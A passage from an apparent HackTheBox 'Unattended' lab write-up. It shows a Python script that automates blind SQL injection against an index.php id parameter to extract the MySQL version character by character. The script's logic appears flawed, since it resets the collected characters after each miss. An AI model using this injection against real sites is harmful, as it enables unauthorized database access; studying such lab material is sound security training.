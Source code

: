 ```py
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2002:57:25.png)

sqli_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# SQLInjection Blind Version Extract - Unattended HackTheBox

import argparse
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def getVersion(rhost):
    sqli_target = 'https://' + rhost +"/index.php?id=465'"
    limit = 1
    char = 42
    prefix = []
    print("[+] The version of MySQL is.... [+]")
    while(char!=123):
        injection_string = "and ascii(substring(version(),%d,1))= %s -- -" %(limit,char)
        target_prefix = sqli_target + injection_string
        response = r.get(target_prefix,proxies=proxies,verify=False,cookies=r.cookies).text
        # On the if put a error message (not success)
        if "we are very sorry to show" not in response:
            prefix.append(char)
            limit=limit+1
            extracted_char = ''.join(map(chr,prefix))
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
            char=42
        else:
            char=char+1
            prefix = []

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Let's get the version of it
    getVersion(rhost)

```
